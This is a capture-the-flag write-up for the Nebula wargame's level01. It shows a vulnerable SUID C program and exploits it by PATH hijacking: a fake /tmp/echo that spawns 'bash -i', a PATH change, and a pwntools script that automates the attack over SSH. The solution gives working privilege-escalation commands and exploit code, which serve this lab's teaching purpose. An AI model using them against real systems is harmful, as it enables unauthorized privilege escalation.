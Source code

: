 # Level01

#### Description

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
> To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

#### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

***

#### Solution

First of all let's switch on to the directory where those files were present.

```
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls -la
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
```

`flag01` is the binary on which SUID bit has set.

Checking source code revealed a vulnerability - PATH hijacking.

```
system("/usr/bin/env echo and now what?");
```

Binary is not using absolute path for `echo` command and it can be exploitable by making our own `echo` binary somewhere else and add that directory path to PATH environment.

Make a new echo binary in `/tmp` folder and give it executable permission.

```
level01@nebula:/home/flag01$ cd /tmp
level01@nebula:/tmp$ echo -e '#!/bin/bash\nbash -i' > echo
level01@nebula:/tmp$ ls
echo  VMwareDnD  vmware-root
level01@nebula:/tmp$ chmod +x echo
```

Add `/tmp` directory path to PATH environment variable.

```
level01@nebula:/tmp$ export PATH=/tmp:$PATH
level01@nebula:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

This will call that echo binary we created in `/tmp` folder instead of the original one.

```
level01@nebula:/tmp$ /home/flag01/flag01
flag01@nebula:/tmp$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
flag01@nebula:/tmp$ getflag
You have successfully executed getflag on a target account
```

Successfully got flag01 user's account shell and completed this level.

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level01', password='level01')

# start a remote shell
terminal = session.shell()

# Creating a fake echo binary on /tmp directory
binary_creation_cmd = "echo -e '#!/bin/bash\nbash -i' > /tmp/echo"
terminal.sendline(binary_creation_cmd)
terminal.sendline("chmod +x /tmp/echo")
print("Successfully created fake /tmp/echo binary")

# Exporting /tmp directory to PATH environment variable
terminal.sendline("export PATH=/tmp:$PATH")

# Executing target binary
terminal.sendline('/home/flag01/flag01')
terminal.sendline("getflag")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>
